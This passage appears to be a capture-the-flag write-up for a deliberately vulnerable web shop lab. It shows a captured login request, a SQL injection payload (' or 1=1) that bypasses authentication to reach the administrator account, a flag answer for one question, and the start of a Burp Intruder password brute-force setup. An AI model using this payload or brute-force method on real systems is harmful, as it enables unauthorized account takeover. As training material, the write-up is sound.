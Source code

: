 ```shell
POST /rest/user/login HTTP/1.1
Host: 10.10.113.37
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 44
Origin: http://10.10.113.37
Connection: keep-alive
Referer: http://10.10.113.37/
Cookie: io=QdUYP1oidC2VzPTOAAAA; language=en; cookieconsent_status=dismiss

{"email":"test@gmail.com","password":"test"}
```

As you could see our request has been captured. Next, we are going to change the email value, `test@gmail.com` to `' or 1=1`. `{"email":"' or 1=1","password":"test"}`

Here's how this works:

1.  The character `'` will close the brackets in the SQL query
2.  `OR` in a SQL statement will return true if either side of it is true. As 1=1 is always true, the whole statement becomes true. Thus it will tell the server that the email is valid, and log us into user id 0, which happens to be the administrator account.
3.  The `--` character is used in SQL to comment out data, any restrictions on the login will no longer work as they are interpreted as a comment.

![alt text](image-5.png#center)
Send a request with the SQL injection code then you will be logged in as admin

<br>

#### Question 5: Log into the Bender account!

```
fb364762a3c102b2db932069c0e6b78e738d4066
```

![alt text](image-6.png#center)
![alt text](image-7.png#center)

<br>

#### Question 6: Bruteforce the Administrator account's password

We have used SQL injection to log into the Administrator account but still do not know the password.
Once again capture a login request but this time send it to Intruder on Burpsuite.

Go to Positions and then select the `Clear § `. In the password field, place two `§` inside the quotes.
The `§§` is not two separate inputs but Burp's implementation of quotations.
![alt text](image-8.png#center)
<br>
